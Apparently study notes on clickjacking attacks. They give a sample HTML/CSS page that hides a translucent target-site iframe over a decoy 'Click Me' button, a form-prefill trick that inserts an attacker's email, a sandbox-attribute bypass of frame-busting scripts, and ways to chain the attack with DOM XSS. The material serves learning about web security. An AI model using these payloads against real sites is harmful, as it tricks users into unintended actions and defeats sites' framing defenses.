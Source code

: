 ## Construction

Construction
* Use CSS to create/manipulate layers.
* Incorporate target website as an iframe layer on top of decoy site.
* z-index: determines stacking order of iframe/web layers
* Change opacity
* Some browsers stop opacity from happening
* Play around with top/left properties to move element around the place.
SAMPLE
<body>
  <style>
    #target_website {
      position:relative;
      width:800px;
      height:800px;
      opacity:70%;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
      top:510px;
      left:50px;
      width:100px;
      z-index:1;
      background: green;
      }
  </style>
  <div id="decoy_website">
  Click Me
  </div>
  <iframe id="target_website" src="targetwebsite">
  </iframe>
</body>

With prefilled form input
* Some forms allow for prepopulation using GET parameters prior to submission.
   	* Some require text before submission
* URL modified to incorporate values of attackers choosing.
* <iframe src="$url?email=hacker@attacker-website.com"></iframe>

Frame Busting Scripts
* Attacks possible whenever sites can be framed.
* Preventative technique: rectrict framing capabilities of site
* Implement frame bust through JS add-ons/extensions like NoScript
* Abilities of scripts
   	* force current app window to be on top
   	* Make all frames visible
   	* prevent clicking invisible frames
   	* intercept/flag clickjacking attacks to user.
* Browser/platform specific
* Attacks:
   	* Use HTML5 iframe sandbox attribute
      		* set allow-forms, allow-scripts and remove allow-top-navigation
      		* stops scripts from working (can't check whether it's on top)
   	* <iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>

Combined with DOM XSS attack
* Carrier for another attack like (DOM XSS)
* First need to identify XSS exploit
* Then, combine with iframe target URL
* Button executes XSS attack

Multistep clickjacking
* Manipulating inputs into target website can take extra steps
* Multiple divisions / iframes
* need precision and stealth.


